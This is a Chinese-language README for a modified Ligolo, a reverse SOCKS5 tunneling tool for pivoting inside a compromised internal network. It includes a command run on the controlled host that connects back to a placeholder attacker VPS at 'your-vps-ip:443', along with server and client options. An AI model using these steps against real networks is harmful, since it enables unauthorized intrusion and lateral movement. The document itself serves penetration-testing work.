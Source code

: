 # Ligolo : 用于内网渗透的反向隧道

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/gluten-free.svg)](https://forthebadge.com)

## 介绍

项目根据 [ligolo](https://github.com/sysdream/ligolo) 修改,主要做一些功能上的裁剪,方便使用.

**Ligolo** 是一个简单的,轻量级的反向Socks5代理工具,所有的流量使用TLS加密.

其功能类似于*Meterpreter*中的*Autoroute + Socks4a*,但是更加稳定,速度更快.

## 使用场景

当你已经在对方内网获取到一台 Windows / Linux / Mac 主机的权限且该主机可以连接互联网.

此时你想要建立一个对方内网的Socks5代理.

**Ligolo** 可以帮助你建立代理,协助你继续进行内网渗透.

> 如果已控主机不能访问互联网,可以尝试使用另一款工具 [pystinger](https://github.com/FunnyWolf/pystinger)

## 使用方法

### TL;DR

- 获取已编译的二进制文件 [release](https://github.com/funnywolf/ligolo/releases)

- 在你的VPS主机中.

```
./ligolos
```

- 在已控制的内网主机中.

```
> ligoloc.exe -s your-vps-ip:443
```

- 连接建立成功后,此时VPS的127.0.0.1:1080已经建立已控主机的内网Socks5代理.

### 详细说明

*Ligolo* 包含两个模块:

- ligolos (server)
- ligoloc (client)

*ligolos* 运行于你的VPS服务器 (攻击服务器).

*ligoloc* 运行于已经控制的内网主机.

*ligolos*可以使用默认设置.它会监听0.0.0.0:443端口(用于等待ligoloc连接)及127.0.0.1:1080(用于socks5代理).

*ligoloc*运行时必须制定服务端地址,使用参数`-s your-vps-ip:443`.

你可以使用`-h`参数查看帮助.

一旦*ligolos* 和 *ligoloc* 之间的连接建立成功,你即可使用VPS服务器`127.0.0.1:1080`的内网socks5代理.

### 选项

*ligolos* options:

```
PS XXX\bin> .\ligolos_windows_amd64.exe -h
Usage of D:\Code\git\go\src\ligolo\bin\ligolos_windows_amd64.exe:
  -cert string
        The TLS server certificate,Unnecessary (default "cert.pem")
  -key string
        The TLS server key,Unnecessary (default "key.pem")
  -l string
        The relay server listening address (the connect-back address) (default "0.0.0.0:443")
  -s5 string
        The local socks5 server address (your proxychains parameter) (default "127.0.0.1:1080")
```

*ligoloc* options:

```
PS XXX\bin> .\ligoloc_windows_amd64.exe -h
Usage of D:\Code\git\go\src\ligolo\bin\ligoloc_windows_amd64.exe:
  -s string
        The relay server (the connect-back address) (default "example.com:443")
```

### 编译

参考原版ligolo的编译方法

## 特性

- TLS 1.3 加密隧道
- 多平台 (Windows / Linux / Mac / ...)
- 多连接复用 (1 TCP连接传输所有流量)
- SOCKS5代理

## To Do

- 更好的超时机制
- SOCKS5 UDP 支持
- mTLS双向认证
- 反向端口映射 (映射内网端口到互联网)

## Licensing

GNU General Public License v3.0 (参考 LICENSING).

## 原版作者

* Nicolas Chatelain <n.chatelain -at- sysdream.com>



